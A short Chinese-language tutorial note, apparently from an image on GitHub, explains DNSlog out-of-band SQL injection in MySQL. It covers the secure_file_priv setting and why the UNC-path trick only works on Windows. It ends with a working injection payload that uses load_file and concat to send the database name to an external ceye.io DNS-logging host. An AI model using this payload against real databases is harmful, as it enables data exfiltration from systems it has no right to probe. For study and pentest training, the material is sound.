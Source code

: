 mysql下的dnslog注入：
1.利用条件：secure_file_priv 不能为NULL,任何不可读写

2.仅支持 Windows但不支持 Linux。
原因：load_file函数在Linux下是无法用来做dnslog攻击的，因为在这里就涉及到Windows——UNC路径。
> UNC路径：UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器. UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。
平常在Widnows中用共享文件的时候就会用到这种网络地址的形式：`\\sss.xxx\test\`\
这也就解释了为什么CONCAT()函数拼接了4个\了，因为转义的原因，4个就变\成了2个\，目的就是利用UNC路径。

```
配置读写权限：
--secure-file-priv = null  //任何不可读写
--secure-file-priv =        //任何可读写
--secure-file-priv = c:\   //只有C盘可读写
在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径写文件
在 MySQL 5.5 之后 secure_file_priv 默认是 NULL，这个情况下不可以写文件
查看配置：
show variables like '%secure%';


读文件：
select load_file('/sql.txt');
and load_file(concat(‘\\\\’,(select database()),’.xtftm5.ceye.io\\sql’)); 
# windows才支持的路径无回显DNSlog携带

```